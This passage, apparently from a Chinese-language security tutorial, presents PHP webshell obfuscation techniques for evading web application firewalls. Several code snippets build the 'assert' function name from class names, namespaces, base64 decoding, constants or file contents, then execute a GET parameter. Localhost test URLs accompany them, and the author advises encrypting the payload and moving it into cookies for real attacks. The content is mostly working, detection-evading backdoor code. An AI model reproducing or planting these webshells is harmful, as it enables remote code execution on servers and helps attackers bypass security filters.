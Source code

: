 ```php
<?php
class assert2{
    static function demo(){
        substr(__CLASS__,0,6)($_GET[1]);
    }
}
assert2::demo();
```

```http
http://127.0.0.1:8081/security/bypass/test26.php?1=phpinfo()
```

稍稍延伸：用 base64 解码敏感类名

```php
<?php
class YXNzZXJ0{
    static function demo(){
       base64_decode(__CLASS__)($_GET[1]);
    }
}
YXNzZXJ0::demo();
```

2.3.4：`__NAMESPACE__的利用`

```php
<?php
namespace assert2;
substr(__NAMESPACE__,0,6)($_GET[1]);
```

```http
http://127.0.0.1:8081/security/bypass/test28.php?1=phpinfo()
```

当然在实战种还是要像上一篇文章一样，将传入的参数进行加密处理，如果再把传参方式改为cookie的那就很完美了

#### 2.4 自定义常量

```php
<?php
define("DEMO",$_GET[1]."ert");
substr(DEMO,0)($_GET[2]);
```

```http
http://127.0.0.1:8081/security/bypass/test29.php?1=ass&2=phpinfo()
```

#### 2.5 分离免杀

顾名思义，就是将一个马拆分成两部分，及使用 `file_get_contents()` 将内容读取出来，为什么不使用 include 等这些文件包含函数了？因为 webshell 的免杀在于动态函数的调用，最终还是要拼接在一起，绕过的原则其实就是绕过 waf 的正则表达式，如果直接 include 其实和写在一个文件里没啥区别

```php
<?php
file_get_contents("test.txt")($_GET[1]);
```
